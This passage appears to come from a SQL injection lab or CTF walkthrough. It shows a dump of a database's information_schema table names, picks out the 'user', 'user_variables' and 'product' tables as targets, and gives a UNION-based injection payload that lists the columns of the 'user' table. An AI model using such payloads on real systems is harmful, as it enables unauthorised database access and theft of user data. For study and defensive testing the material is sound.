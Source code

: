 - Result 
> ALL_PLUGINS, APPLICABLE_ROLES,
> CHARACTER_SETS, CHECK_CONSTRAINTS,
> COLLATIONS, COLLATION_CHARACTER_SET_APPLICABILITY,
> COLUMNS, COLUMN_PRIVILEGES,
> ENABLED_ROLES, ENGINES, EVENTS, FILES,
> GLOBAL_STATUS, GLOBAL_VARIABLES,
> KEYWORDS, KEY_CACHES, KEY_COLUMN_USAGE,
> OPTIMIZER_TRACE,
> PARAMETERS, PARTITIONS, PLUGINS,
> PROCESSLIST, PROFILING,
> REFERENTIAL_CONSTRAINTS, ROUTINES,
> SCHEMATA, SCHEMA_PRIVILEGES,
> SESSION_STATUS, SESSION_VARIABLES,
> STATISTICS, SQL_FUNCTIONS, SYSTEM_VARIABLES,
> TABLES, TABLESPACES, TABLE_CONSTRAINTS,
> TABLE_PRIVILEGES,TRIGGERS, USER_PRIVILEGES,
> VIEWS, CLIENT_STATISTICS,
> INDEX_STATISTICS,INNODB_SYS_DATAFILES,
> GEOMETRY_COLUMNS, INNODB_SYS_TABLESTATS,
> SPATIAL_REF_SYS, INNODB_BUFFER_PAGE, INNODB_TRX,
> INNODB_CMP_PER_INDEX, INNODB_METRICS,
> INNODB_LOCK_WAITS, INNODB_CMP,
> THREAD_POOL_WAITS, INNODB_CMP_RESET,
> THREAD_POOL_QUEUES,TABLE_STATISTICS,
> INNODB_SYS_FIELDS,INNODB_BUFFER_PAGE_LRU,
> INNODB_LOCKS,INNODB_FT_INDEX_TABLE,INNODB_CMPMEM,
> THREAD_POOL_GROUPS, INNODB_FT_CONFIG,
> INNODB_CMP_PER_INDEX_RESET,INNODB_SYS_FOREIGN_COLS,
> INNODB_FT_INDEX_CACHE,INNODB_BUFFER_POOL_STATS,
> INNODB_FT_BEING_DELETED,INNODB_SYS_FOREIGN,
> INNODB_CMPMEM_RESET, INNODB_FT_DEFAULT_STOPWORD,
> INNODB_SYS_TABLES,INNODB_SYS_COLUMNS,
> USER_STATISTICS, INNODB_MUTEXES,
> INNODB_SYS_TABLESPACES, INNODB_SYS_VIRTUAL,
> INNODB_SYS_INDEXES,INNODB_SYS_SEMAPHORE_WAITS,
> INNODB_TABLESPACES_ENCRYPTION, INNODB_FT_DELETED,
> THREAD_POOL_STATS,
> user_variables, user, product

![](./IMG/21.png)
- The interesting tables are
    1. user_variables
    2. user
    3. product
```
' and 1=2 UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='user'-- -
```